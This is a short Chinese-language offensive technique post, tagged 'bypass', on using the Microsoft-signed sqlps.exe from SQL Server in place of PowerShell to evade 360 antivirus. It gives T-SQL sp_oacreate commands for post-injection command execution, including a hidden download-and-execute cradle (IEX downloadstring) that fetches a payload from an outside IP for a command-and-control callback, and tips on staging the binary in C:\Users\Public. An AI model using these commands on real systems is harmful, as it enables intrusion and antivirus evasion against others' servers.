 ```yaml
---
title: sqlps替代powershell
tags: bypass
---
```


# sqlps替代powershell
## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190210.png)

此文件本身自带微软签名：

![image-20220315190237951](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190237.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190323.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191524.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191648.png)



![image-20220315191725621](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191725.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315192329.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315193426.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
